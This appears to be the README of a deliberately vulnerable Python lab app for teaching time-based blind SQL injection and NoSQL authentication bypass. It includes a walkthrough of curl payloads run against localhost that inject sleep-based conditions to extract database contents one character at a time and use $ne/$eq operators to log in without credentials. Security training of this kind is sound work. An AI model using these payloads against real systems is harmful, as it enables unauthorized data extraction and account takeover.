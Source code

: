 # SQL and NoSQL Injection Labs

This repository contains a simple web application that demonstrates two common vulnerabilities:

- **Time-based blind SQL injection** using a vulnerable employee lookup page backed by SQLite.
- **NoSQL injection** via a login form that unsafely parses user supplied JSON.

The application is implemented in pure Python so it can run without extra dependencies.

## Usage

Start the server:

```bash
python3 app.py
```

Then open `http://localhost:8000` in your browser. You will see links to both labs.

These labs are intentionally vulnerable and should only be used in a controlled environment for educational purposes.

## Exploitation Walkthrough

### SQL Injection (time‑based)
1. Open `http://localhost:8000/sql-lab` and look up ID `1`. The page only reports if a record exists.
2. Verify injection by causing a delay:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20OR%20sleep(3)=0"
   ```
   The request takes roughly three seconds longer, proving that the injected `sleep(3)` function executed.
3. Test whether another employee ID exists using a conditional delay:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20AND%20(SELECT%20CASE%20WHEN%20(SELECT%20count(*)%20FROM%20employees%20WHERE%20id=2)=1%20THEN%20sleep(3)%20ELSE%200%20END)"
   ```
   If ID 2 is present, the response is delayed.
4. Extract data character by character. For example, to check if the first letter of employee 1's name is `A`:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20AND%20(SELECT%20CASE%20WHEN%20substr(name,1,1)='A'%20THEN%20sleep(3)%20ELSE%200%20END%20FROM%20employees%20WHERE%20id=1)"
   ```
   Repeat this test for each position to reveal the name using timing differences.
5. Continue enumerating additional rows and columns in the same way to recover the full dataset.

### NoSQL Injection
1. Go to `http://localhost:8000/nosql-lab` and attempt to log in normally.
2. Bypass authentication by supplying JSON values:
   ```bash
   curl -X POST -d "username=%7B%22%24ne%22:null%7D&password=%7B%22%24ne%22:null%7D" http://localhost:8000/nosql-lab
   ```
   Any user record with non‑null fields will match.
3. Check if a specific user exists by using the `$eq` operator:
   ```bash
   curl -X POST -d "username=%7B%22%24eq%22:%22alice%22%7D&password=%7B%22%24ne%22:null%7D" http://localhost:8000/nosql-lab
   ```
   A delay in response indicates a valid username when combined with the `$ne` password condition.
4. Combine these techniques to log in as any known user once the username is discovered.

These demonstrations highlight how unsanitized input leads to unauthorized database access. Always run the labs in an isolated environment.

